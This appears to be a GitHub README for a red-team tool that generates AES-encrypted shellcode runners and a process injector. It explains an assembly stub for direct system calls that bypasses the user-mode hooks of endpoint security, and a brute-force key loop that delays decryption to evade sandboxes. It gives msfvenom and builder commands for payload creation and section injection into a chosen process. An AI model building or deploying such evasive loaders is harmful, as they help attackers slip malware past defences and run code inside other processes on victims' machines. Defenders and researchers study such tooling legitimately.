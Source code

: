 # GENERIC SYSCALL
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```
This is an interesting technique because it removes the need to both define native function types in our header files and to define each native function in assembly.  
Some prerequisite knowledge:  
- When a function is called the return address is pushed to the stack and execution jumps to the address of the function. So `call` is really like a `push ret` then `jmp faddr` instruction.  
- In x64 the fastcall calling convention is used. With fastcall four registers are used to hold the first four parameters of a function (`rcx`, `rdx`, `r8`, `r9`).  

So `pop rax` moves the return address from the top of the stack to `rax` register. Now `first parameter` of the function is at the top.  
`pop r10` moves the next item from the top of the stack to `r10`.
The return address in `rax` is moved back to the top of the stack with the `push rax` operation.
The first parameter of our ZwX fucntion is then pushed onto the stack with `push rcx`.  
The stack then starts to look more like the stdcall the underlying native function is expecting.  


## Encoding  
The shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

requirments:
```
gcc
python3
nasm
```

use  
`python3 -m venv env`  
`source env/bin/activate`  
`pip install pycryptodome`  
`msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin`  
`python build.py -inbin test.bin -execmethod runner`  
`python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\\\windows\\system32\\firefox.exe'`


```
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}] [--process PROCESS] [--cmdline CMDLINE] [--v V]

generate AES encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  

### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project
https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  
